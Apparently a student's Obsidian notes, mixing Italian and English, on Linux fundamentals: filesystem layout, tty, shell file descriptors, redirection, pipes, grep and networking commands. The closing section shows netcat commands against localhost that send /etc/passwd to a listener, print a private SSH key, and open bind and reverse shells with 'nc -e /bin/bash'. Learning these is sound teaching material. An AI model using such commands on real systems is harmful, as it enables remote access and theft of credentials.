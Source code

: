 # Filesystem
Tree structure
- /
	 - /boot/ —> system boot files
	-  /dev/ —> hardware devices (ogni dispositivo è un file)
	-  /etc/ —> system configuration
	-  /home/ —> user home directories
	-  /lib/ —> system libraries
	-  /mnt/ —> removable devices (e.g. usb)
	-  /proc/ —> kernel interaction (file abstraction) 
	-  /sys/ —> kernel interaction
	-  /tmp/ —> temporary files
	-  /usr/ —> universal system resources/mostly user installed programs
	-  /var/ —> variable files
## tty
	tty = virtual terminal - terminale virtuale
SI tratta dell'interfaccia principale del SO. Provando ad installare Linux senza interfaccia grafica, si avrà la tty. Viene definita "virtuale" poiché è una versione virtuale dei vecchi telescriventi.
>[!info]- tty = text input/output interface provided by the kernel

I file tty si trovano in `/dev`.
## La shell e i file descriptors
>[!note]- Shell = command line interpreter
>input → shell → output

Esistono 3 file di default ( con i corrispettivi file descriptors) con cui lavora la shell:
- 0 - stdin
- 1 - stdout
- 2 - stderr
In un terminale virtuale, di default:
- fd 0 è connesso alla tastiera
- fd 1 e 2 sono connessi allo schermo
### GUI
>[!info]- GUI = Graphical User Interface

Si tratta di:
- Finestre, Icone, Puntatore del mouse
- Interfacce User-friendly per il SO
- Si esegue al di sopra del tty
- Permette uno pseudo-tty grazie a programmi chiamati *emulatori di terminale*
# Shell
La Shell può essere utilizzata in due modi:
- Interattivamente
- Eseguendo un file scritto in "linguaggio shell"
Ci sono molti programmi che implementano una shell ( sh, bash, zsh, ...)
Una shell accoglie l'utente con un prompt.
- La shell è pronta ad accettare comandi da eseguire
- Il prompt è qualsiasi cosa viene scritta alla shell
	- Un programma da eseguire
	- Un comando shell
La shell utilizza le variabili d'ambiente:
- Variabili globali a livello di sistema operativo che configurano l'ambiente di sistema (ad esempio $PATH)
- Variabili globali di runtime che definiscono l'ambiente locale (ad esempio $USER, $TERM)
>[!important]- Il programma `echo`
> - Riscrive qualsiasi cosa trova come argomento di linea di comando
> - Gli argomenti della linea di comando sono stringhe che seguono il nome del programma, separato da spazi
> - Può essere anche utilizzato per stampare variabili d'ambiente
> 	- `echo $PATH`

>[!important]- Il programma `pwd`
>- Stampa la cartella di lavoro corrente
>- Si cambia directory con `cd`
>- Si ottiene una lista dei file/cartelle dentro una directory con `ls`

>[!important]- Il programma `cat`
>`cat file.txt`
>Stampa il contenuto di un file

>[!info]- Editor CLI
>- nano
>- vim
>- ...

## Redirection
L'input e l'Output di un programma può essere reindirizzato e dato in pasto ad altri programmi:
- L'operatore ">" reindirizza l'*output*;
- L'operatore "<" reindirizza l'*input*.
La sintassi generale per il reindirizzamento è:
- `fd1 [operator] &fd2 ->` reindirizza fd1 a fd2
- `fd1 [operator] filename ->` reindirizza f1 al filename
Il file speciale `/dev/null`
- I byte scritti su questo file sono semplicemente spazzatura
- Utile per quando si vuole ignorare un output
- `find / -type f -name sudo 2>/dev/null`
	- = ignora stderr e stampa solo stdout
## Pipes
Le pipes sono file utilizzati dei processi per intercomunicare (IPC).
- Una *named pipe* o *fifo* esiste nel filesystem;
- Una *anonymous pipe* è gestita direttamente dal kernel e non esiste nel filesystem.
Supponi di voler utilizzare l'output di un programma come input di un'altro. Puoi farlo con i reindirizzamenti, oppure con le pipe:
```Bash
program1 | program2
program1 | program2 | program 3 | ...
```

Le pipe necessitano di essere create prima di essere utilizzate.

>[!important]- Il programma `grep`
> Il programma `grep` filtra l'input in base a delle regole.
> es. `cat *.txt | grep "vdsi"` mostrerà in output qualsiasi file .txt che contiene la stringa "vdsi"

Altri programmi di filtro di testo:
- `awk` estrae token
- `sed` rimpiazza stringhe
- `cut` taglia le stringhe e ne prende solo alcune parti
### Stringhe
Le stringhe sono sequenze di caratteri racchiuse tra virgolette.
>[!info]- `\` è una Escape sequence
>Una stringa è "escaped" quando tutti i caratteri pericolosi vengono rimpiazzati da sequenze di fuga.
>

### Text Editors
Spesso avrai bisogno di modificare dei file direttamente dalla shell. Ci sono due programmi principali di editing di testo:
- Nano
- Vim (e derivati, es. neovim, lunarvim, lazivim, vi, ...)
# File e processi
## Permessi in linux
![[Pasted image 20240315232541.png|center|500]]
## Networking
```Bash
netstat
ip addr
ip route
ip neigh
ip link
ifconfig
route -n
```
### SSH
```Bash
service ssh status/start
ssh-keygen -t rsa
cat ~/.ssh/authorized_keys
cat ~/.ssh/id_rsa.pub
cat ~/.ssh/id_rsa
ssh -i id root@127.0.0.1 -p 53
```
# Scripting, bind e Reverse shell
## Netcat
### Transferring files
```Zsh
nc -lvnp 1234
cat /etc/passwd | nc 127.0.0.1 1234
nc -lvnp 1234 > transfered
cat /etc/passwd | nc -w1 127.0.0.1 1234
```
### Bind shell
![[Pasted image 20240315233334.png|center|500]]

```zsh
(shell 1) nc -lvnp 1234 -e /bin/bash
(shell 2) nc 127.0.0.1 1234
```
### Reverse Shell
![[Pasted image 20240315233613.png|center|500]]
```zsh
(shell 1) nc -lvnp 1234 
(shell 2) nc 127.0.0.1 1234 -e /bin/bash
```